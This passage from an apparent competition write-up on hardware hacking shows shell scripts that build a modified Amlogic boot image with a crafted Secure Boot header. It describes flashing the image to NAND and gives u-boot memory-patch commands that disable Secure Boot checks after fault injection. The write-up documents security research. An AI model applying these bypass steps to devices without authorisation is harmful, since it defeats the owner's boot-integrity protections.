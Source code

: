 ```shell
cat kern-pl.sha >> kern.hdr
pad_file kern.hdr 256

#openssl dgst -sha256 -out kern.hdr.sig kern.hdr

#cat kern.hdr.sig >> kern.hdr

pad_file kern.hdr 512
```

At this point, we are ready to prepend our newly generated AML Secure Boot header and recreate our boot image.

```shell
#!/bin/bash
# mk_boot.sh

cat kern.hdr boot_test.img > boot.tmp

imagesize=$(stat --printf="%s" boot.tmp)
paddingsize=$(( 12582912 - $imagesize ))
dd if=/dev/zero ibs=1 count=$paddingsize | LC_ALL=C tr "\000" "\377" >padding_boot.bin

cat bootloader.bin junk.bin tpl.bin fts.bin factory.bin recovery.bin boot.tmp padding_boot.bin system.bin cache.bin > nand_test.bin
```

Now, we're ready to actually install this boot image to the device, but, how to go about it?

## Getting something onto the device

Originally, we tried to execute `fastboot` from within u-boot, but we couldn't get reliable communications on either `USB0` or `USB1`. Given the tight timeline of the competition, we went the nuclear route and desoldered the NAND, dropping it into a NAND flash reader, and then wrote it by hand. Post-competition we ultimately ended up adapting a method similar to what we did on boreal.

We hooked up a powered USB hub to the `USB0` bus, with a FAT32 drive attached that had our modified boot image on the filesystem. We then `fatload` to pull the modified boot image from the USB into ram (`loadaddr`), and then utilized `store` to write it to the `boot` partition.

## Booting afformentioned malicious boot image

Once we have the malicious boot image installed and in place, we can then perform the fault-injection one final time, and then re-run the AML Secure Boot disable memory edit commands and re-execute u-boot:

```shell
mw 0x4e28 d503201f # Patch AML Secure Boot [1/2]
mw 0x4e2c 35000120 # Patch AML Secure Boot [2/2]
# Allow us to interrupt the next warm-reset of u-boot
setenv bootdelay 3
# Ensure the bootdelay change takes effect
saveenv
# Warm-Reset u-boot again
go 0x0
```
